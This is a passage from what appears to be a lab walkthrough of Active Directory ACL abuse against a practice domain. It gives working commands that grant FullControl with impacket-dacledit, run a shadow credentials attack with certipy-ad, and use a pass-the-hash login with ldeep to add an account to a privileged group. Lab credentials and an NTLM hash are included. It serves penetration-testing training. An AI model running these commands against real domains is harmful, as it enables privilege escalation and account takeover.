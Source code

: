 - Ok now change the permission to “FullControl” and see the modification

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```
![screenshot](pics/acl_writedacl_full_control.png)

- Ok now we can :
    - change tyron password
    - do a target kerberoasting
    - do a shadow credentials
- Let’s just use shadowcredentials :
```
certipy-ad shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```
![screenshot](pics/certipy_writedacl.png)


## Add self on Group (Tyron -> Small Council)

- We now got tyron so we can add us into the small council group

- First find the distinguished name
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```


- Add tyron to Small Council
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"
```
